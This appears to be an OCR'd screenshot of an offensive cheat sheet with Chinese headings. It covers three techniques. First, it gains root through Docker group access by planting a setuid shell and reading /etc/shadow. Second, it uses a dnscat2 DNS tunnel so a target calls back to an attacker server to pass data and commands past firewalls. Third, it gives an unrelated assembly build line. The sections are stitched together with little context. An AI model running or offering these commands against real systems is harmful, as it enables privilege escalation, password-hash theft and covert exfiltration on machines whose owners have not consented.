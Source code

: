 ek@victum:~$ mkdir docker-test
ek@victum:~$ cd docker-test

ek@victum:~$ cat > Dockerfile
FROM debian:wheezy

ENV WORKDIR /stuff

RUN mkdir -p $WORKDIR

VOLUME [ $WORKDIR ]

WORKDIR $WORKDIR
<< EOF

ek@victum:~$ docker build -t my-docker-image .
ek@victum:~$ docker run -v $PWD:/stuff -t my-docker-image /bin/sh -c /
'cp /bin/sh /stuff && chown root.root /stuff/sh && chmod a+s /stuff/sh'
./sh
whoami
# root

ek@victum:~$ docker run -v /etc:/stuff -t my-docker-image /bin/sh -c 'cat /stuff/shadow'
使用 DNS 隧道绕过防火墙
# 让数据和命令使用 DNS 隧道传输以绕过防火墙的检查
# dnscat2 支持从目标主机上面上传和下载命令来获取文件、数据和程序

# 服务器 (攻击者)
$ apt-get update
$ apt-get -y install ruby-dev git make g++
$ gem install bundler
$ git clone https://github.com/iagox86/dnscat2.git
$ cd dnscat2/server
$ bundle install
$ ruby ./dnscat2.rb
dnscat2> New session established: 16059
dnscat2> session -i 16059

# 客户机 (目标)
# https://downloads.skullsecurity.org/dnscat2/
# https://github.com/lukebaggett/dnscat2-powershell
$ dnscat --host <dnscat server_ip>
编译 Assemble 代码
$ nasm -f elf32 simple32.asm -o simple32.o
$ ld -m elf_i386 simple32.o simple32
